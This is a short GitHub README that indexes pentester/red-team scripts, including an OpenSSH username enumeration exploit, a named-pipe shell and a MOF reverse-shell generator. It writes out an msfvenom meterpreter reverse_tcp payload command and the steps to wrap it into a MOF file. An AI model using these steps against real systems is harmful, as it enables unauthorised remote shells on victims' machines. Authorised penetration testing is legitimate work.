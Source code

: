 A collection of some useful script for pentesters or red teamers


## [sshUsernameEnumExploit.py](https://github.com/Malayke/Scripts/tree/master/CVE-2018-15473-sshUsernameEnumExploit)

OpenSSH < 7.7 username enumeration exploit  
OpenSSH 版本小于7.7 用户名枚举漏洞利用工具 

## HTTPPutServer.py

A simple HTTP PUT Server write by python  

用 Python 写的 HTTP PUT Server

## web-rce-named-pipe-shell.py

A named pipe tty shell via mkfifo.

## generate-mof-reverse-shell-file.py

This python script can generate a MOF reverse shell file.

First step, generate vbs reverse shell shellcode via `msfvenom`

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -e generic/none -f vbs -o reverse_shell.vbs
```

then generate MOF file: 

```
$ python3 generate-mof-reverse-shell-file.py reverse_shell.vbs > reverse_shell.mof
```
## mitmproxy-zoomeye.py

Mitmproxy zoomeye proxy, grab zoomeye search hosts to file
1. start mitmproxy
```shell
$ mitmdump -s zoomeye.py "~d zoomeye.org & '/search'"
```
2. set browser proxy with mitmproxy address
3. searching on zoomeye, result will be save in result.txt
